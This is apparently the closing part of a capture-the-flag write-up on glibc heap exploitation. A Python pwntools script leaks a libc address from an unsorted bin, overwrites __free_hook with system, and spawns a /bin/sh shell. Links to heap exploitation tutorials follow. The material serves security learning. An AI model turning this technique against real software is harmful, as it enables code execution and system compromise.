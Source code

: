 ```python
# Next free will be free(0x602060) because we overwrote the last malloced value.

# Note that we need the free to be 0x602060 because free expects the user region of the chunk,
# not the start of the chunk

free()  # free(0x602060)

# This free will overwrite the forward and backward pointer. Since this chunk is the only chunk 
# stored in an unsorted bin, the fwd and bck pointers will point to the location of the bin within
# libc. This location will have a constant offset with libc base.

LEAKED_CHUNK_OFFSET = 0x3ebca0

leaked_chunk_addr = u64(get_info()[:8]) # Leaked address of malloc chunk

LIBC_BASE = leaked_chunk_addr - LEAKED_CHUNK_OFFSET
libc.address = LIBC_BASE

info("Leaked chunk at " + hex(leaked_chunk_addr))
info("Found libc base: " + hex(LIBC_BASE))
info("Found __free_hook address: " + hex(libc.symbols['__free_hook']))

mem_write(libc.symbols['__free_hook'] , p64(libc.symbols['system']), 0x50)
malloc(0x50, "/bin/sh\x00")

free()

r.interactive()
```



# Further Reading
These are some resources that I found helpful when solving this challenge.

1. [https://azeria-labs.com/heap-exploitation-part-2-glibc-heap-free-bins/](https://azeria-labs.com/heap-exploitation-part-2-glibc-heap-free-bins/)
2. [https://github.com/shellphish/how2heap/blob/master/glibc_2.26/tcache_poisoning.c](https://github.com/shellphish/how2heap/blob/master/glibc_2.26/tcache_poisoning.c)
3. [https://heap-exploitation.dhavalkapil.com/](https://heap-exploitation.dhavalkapil.com/)
